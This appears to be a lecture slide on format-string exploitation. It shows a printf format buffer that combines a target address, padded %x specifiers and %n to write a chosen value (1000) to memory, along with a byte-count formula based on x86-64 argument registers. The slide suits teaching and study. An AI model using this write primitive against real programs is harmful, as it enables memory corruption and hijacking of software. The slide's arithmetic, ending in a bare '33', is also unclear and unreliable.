

# Controlling written value
Goal: [0x555555554708] = 1000
char buf[] = little_end(0x555555554708) +
             “%0200x%0200x%0200x%0200x%0200x%n\n”;
printf(buf);

#printed bytes before writing to 0x555555554708 :
        8 + 5 + len(rsi) + len(rdx) + len(rcx) + len(r8) + len(r9)
33